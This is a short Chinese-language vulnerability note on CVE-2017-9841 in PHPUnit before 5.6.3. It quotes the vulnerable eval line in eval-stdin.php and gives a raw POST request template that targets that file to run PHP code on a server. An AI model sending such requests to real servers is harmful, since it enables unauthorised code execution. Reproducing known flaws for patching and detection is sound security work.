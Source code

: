 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841 

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

> [!NOTE]
>
> PHPUnit < 5.6.3

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](http://wikioss.peiqi.tech/vuln/php-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

